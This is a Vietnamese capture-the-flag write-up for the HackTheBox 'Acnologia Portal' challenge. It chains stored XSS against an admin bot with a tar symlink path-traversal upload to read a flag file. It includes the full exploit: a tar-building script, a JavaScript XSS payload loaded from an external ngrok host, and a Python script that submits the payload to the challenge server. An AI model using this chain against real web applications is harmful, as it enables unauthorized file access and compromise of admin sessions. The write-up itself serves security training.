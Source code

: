 # HTB Cyber Apocalypse 2022 - Acnologia Portal

**Description**: Chall cho source code, một bài upload file via XSS.

*Note*: Flag nằm ở `/flag.txt`

## Review Source Code

file `blueprints/routes.py`:
```python
import json
# ........

@api.route('/login', methods=['POST'])
def user_login():
# ..........

@api.route('/register', methods=['POST'])
def user_registration():
# ........

# .....

@api.route('/firmware/report', methods=['POST'])
@login_required
def report_issue():
    if not request.is_json:
        return response('Missing required parameters!'), 401

    data = request.get_json()
    module_id = data.get('module_id', '')
    issue = data.get('issue', '')

    if not module_id or not issue:
        return response('Missing required parameters!'), 401

    new_report = Report(module_id=module_id, issue=issue, reported_by=current_user.username)
    db.session.add(new_report)
    db.session.commit()

    visit_report()
    migrate_db()

    return response('Issue reported successfully!')

@api.route('/firmware/upload', methods=['POST'])
@login_required
@is_admin
def firmware_update():
    if 'file' not in request.files:
        return response('Missing required parameters!'), 401

    extraction = extract_firmware(request.files['file'])
    if extraction:
        return response('Firmware update initialized successfully.')

    return response('Something went wrong, please try again!'), 403

@web.route('/review', methods=['GET'])
@login_required
@is_admin
def review_report():
    Reports = Report.query.all()
    return render_template('review.html', reports=Reports)

```

file `util.py`:
```python
def extract_firmware(file):
    tmp  = tempfile.gettempdir()
    path = os.path.join(tmp, file.filename)
    file.save(path)

    if tarfile.is_tarfile(path):
        tar = tarfile.open(path, 'r:gz')
        tar.extractall(tmp)

        rand_dir = generate(15)
        extractdir = f"{current_app.config['UPLOAD_FOLDER']}/{rand_dir}"
        os.makedirs(extractdir, exist_ok=True)
        for tarinfo in tar:
            name = tarinfo.name
            if tarinfo.isreg():
                try:
                    filename = f'{extractdir}/{name}'
                    os.rename(os.path.join(tmp, name), filename)
                    continue
                except:
                    pass
            os.makedirs(f'{extractdir}/{name}', exist_ok=True)
        tar.close()
        return True

    return False
```

Để review source-code, về cơ bản:

1. Website có tính năng report firmware cùng với description gửi cho admin(con bot) và chỗ này dính XSS.
2. Có tính năng update firmware hay upload file nhưng chỉ admin mới có thể dùng tính năng này.
3. Nếu file được upload là 1 file tar nó sẽ được tự động extract ra thư mục chứa file.
4. File name không hề được validate và dính lỗi path traversal.


**Ý tưởng**: Bởi vì chỉ admin mới có thể upload file, ta XSS tạo code javascript có chức năng tự request đến endpoint và upload 1 file tar, cái mà sẽ được tự động extract. File tar chứa file 1 symlink với tên path traversal `../../app/application/static/css/main.css` trỏ đến `../../../../flag.txt`. 

Từ đó, ta có thể truy cập đến `/static/css/main.css`(endpoint được public nay là 1 symlink) để đọc flag.

## Exploit 

**Step 1**: Đầu tiên ta tạo 1 file symlink có tên là `payload` trỏ đến `../../../../flag.txt`
```bash
ln -s payload ../../../../flag.txt
```
**Step 2**: file `createTar.py`: tạo 1 file tar và add file symlink và đổi tên thành `../../app/application/static/css/main.css`
```python
import tarfile

tar = tarfile.open("file.tar.gz","w:gz")

tar.add('payload', '../../app/application/static/css/main.css')
tar.list()
tar.close()
```

*Tham khảo*: 

https://docs.python.org/3/library/tarfile.html

https://linuxconfig.org/how-to-create-and-manipulate-tar-archives-using-python


Giờ đây ta được `file.tar.gz` gồm 1 symlink trỏ đến flag và tên path traversal overwrite `main.css`

**Step 3**: https://www.dubget.com/file-upload-via-xss.html

Một bài upload file thông qua XSS, ta tham khảo được javascrip function `base64toBlob()` nhận đầu vào là 1 file tar được encode dạng chuỗi base64 có thể decode lại dưới format binary.

```bash
cat file.tar.gz | base64 # Ta được chuỗi base64
```

**Step 4**: Với file dưới dạng chuỗi base64, và hàm `base64toBlob()` ta build tiếp payload XSS upload file tar này khi submit cho admin.

file `exploit.js`:
```js
// <script src="https://8185-222-252-57-113.ap.ngrok.io/exploit.js"></script>

var b64file = "H4sICLe0gmIC/2ZpbGUudGFyAO3TzUrEMBSG4ay9il5BfpvGLgZm6dJbCLUzBNuxTDPQyzdlQAVRF6Mj6PtwkhOSQLL5pJJqex+Xuz4+9EfxI/TZR11rV7+u132jrbGiWsQVnOYcj+V58T/Z22rMaew3pvE2OKfbVrrQOuObG4E/T0pVKk7TOobUxZyeDqpkIqdOdfOsxpgOsiwuzH8IYe0meP22v2Te1LbW3lnrndBlbryo7Plz72s3xL3MS/7O/D/GIX1276tzAAAAAAAAAAAAAAAA4Bc8A3dU6fEAKAAA";

function base64toBlob(base64Data, contentType) {
    contentType = contentType || '';
    var sliceSize = 1024;
    var byteCharacters = atob(base64Data);
    var bytesLength = byteCharacters.length;
    var slicesCount = Math.ceil(bytesLength / sliceSize);
    var byteArrays = new Array(slicesCount);

    for (var sliceIndex = 0; sliceIndex < slicesCount; ++sliceIndex) {
        var begin = sliceIndex * sliceSize;
        var end = Math.min(begin + sliceSize, bytesLength);

        var bytes = new Array(end - begin);
        for (var offset = begin, i = 0; offset < end; ++i, ++offset) {
            bytes[i] = byteCharacters[offset].charCodeAt(0);
        }
        byteArrays[sliceIndex] = new Uint8Array(bytes);
    }
    return new Blob(byteArrays, { type: contentType });
}

var content_type = 'application/x-gtar-compressed';
var blob = base64toBlob(b64file, content_type);

// var file = new File([atob(base64)], "flag.tar.gz", {
//   type: "text/plain",
// });


var data = new FormData();
data.append('file', blob, 'file.tar.gz');

// LUU Y: May option nhu cors, headers... vo van co the prevent upload file.
fetch("http://localhost:1337/api/firmware/upload", {
  "body": data,
  "method": "POST"
});
```

**Step 5**: Cuối cùng file `exploit.py`, file này đơn giản là login rồi report payload XSS là 1 tag script trỏ đến file `exploit.js` ta đang host.
```python
import requests

url = 'http://134.209.177.202:31877'
s = requests.Session()

register = s.post(url+'/api/register', json={'username': '1', 'password': '1'})
login = s.post(url+'/api/login', json={'username': '1', 'password': '1'})

payload = '<script src="https://8185-222-252-57-113.ap.ngrok.io/exploit.js"></script>'
report = s.post(url+'/api/firmware/report', json={'module_id': '1', 'issue': payload})

print(report.text)
```

Attemp upload `__init__.py` để RCE luôn nhưng bất thành: https://ajinabraham.com/blog/exploiting-insecure-file-extraction-in-python-for-code-execution

**flag**: `HTB{des3r1aliz3_4ll_th3_th1ngs}`
